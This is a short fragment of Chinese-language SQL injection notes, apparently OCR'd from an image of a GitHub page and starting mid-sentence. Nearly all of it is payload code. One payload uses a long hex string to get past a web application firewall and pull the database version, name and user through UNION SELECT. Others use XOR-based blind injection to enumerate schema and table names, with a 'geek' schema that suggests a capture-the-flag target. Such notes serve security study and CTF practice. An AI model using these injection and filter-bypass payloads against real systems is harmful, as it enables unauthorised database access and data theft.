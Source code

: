   (id=1 and (select 1)=(Select 0xAAAAAAAAAAAAAAAAAAAAA)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 ,27,28,29,30,31,32,33,34,35,36–+

  其中0xAAAAAAAAAAAAAAAAAAAAA这里A越多越好。。一般会存在临界值，其实这种方法还对后缀名的绕过也有用)

- 不用or and 来进行bool盲注

  原理

  ```
  id=1^1^1
  =>id=1
  ```

  payload

  ```
  1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),{0},1))={1})^1"
  #爆库
  1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%s,1))=%s)^1
  #爆字段
  ```